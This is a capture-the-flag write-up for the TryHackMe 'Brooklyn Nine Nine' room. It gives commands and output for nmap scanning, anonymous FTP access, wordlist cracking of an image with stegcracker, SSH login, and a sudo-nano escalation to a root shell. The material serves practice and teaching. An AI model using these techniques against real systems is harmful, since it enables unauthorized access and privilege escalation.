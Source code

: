 ```yaml
---
layout: post
img: brooklyn.jpg
title: Brooklyn Nine Nine
date: 2023-02-20 20:30 +0800
categories: [THM writeup]
tags: [flags,hacking,tryhackme]
---
```



##  Brooklyn Nine Nine
  <https://tryhackme.com/room/brooklynninenine> 

### Objective:
  Capture the two flags.
 
### Difficulty:
  Easy
  
### #Enumeration
we will start with nmap by using the following command.  

```bash
nmap -A 10.10.32.149 -r
```

In the result of nmap we can see there are three ports open on machine ssh,ftp,and http.

```bash
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.23.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 167f2ffe0fba98777d6d3eb62572c6a3 (RSA)
|   256 2e3b61594bc429b5e858396f6fe99bee (ECDSA)
|_  256 ab162e79203c9b0a019c8c4426015804 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

the ftp server allows anonymous login so i tried to login in ftp server and check the list of files. there is a file named _note_to_jake.txt_ 

I downloaded the file to my computer and checked its content. which shows its a note to jake to change his password.

> From Amy,

> Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine


try the http, tried the gobuster for directories but no luck with that. so on inspecting the _page elements_ found there is comment showing that there might be steganography on the image. for further inspection downloaded the image and tried binwalk and steghide but no better luck with those too.

```html
</p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
```

at last tried stegcracker for cracking password of image and it worked.

```
stegcracker brooklyn99.jpg wordlists/rockyou.txt
```

```bash
Counting lines in wordlist..
Attacking file '/Users/sentinel/Downloads/brooklyn99.jpg' with wordlist '../wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20330 passwords
Your file has been written to: /Users/sentinel/Downloads/brooklyn99.jpg.out
admin
```
{: .nolineno}

so found the password for holt, now login to ssh using the hold's password and check for the files there is a user flag that is first flag.

```bash
ssh holt@10.10.32.149
holt@10.10.32.149's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
```
{: .nolineno}

>cat user.txt

and you will get your first flag.

To escalate priviledge first check for sudo permission and found the holt have the permission to use /bin/nano as sudo without any password .

> sudo -l

```
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
 ```

use the _/bin/nano_ file to access root flag. 

```bash
sudo /bin/nano /root/root.text
```
{: .nolineno}

> you can use "sudo /bin/nano -s /bin/sh" then write "/bin/sh" in nano and press "ctrl+t" or "^T" for full root shell to check flag as mentioned in GTFOBins.
{: .prompt-tip}


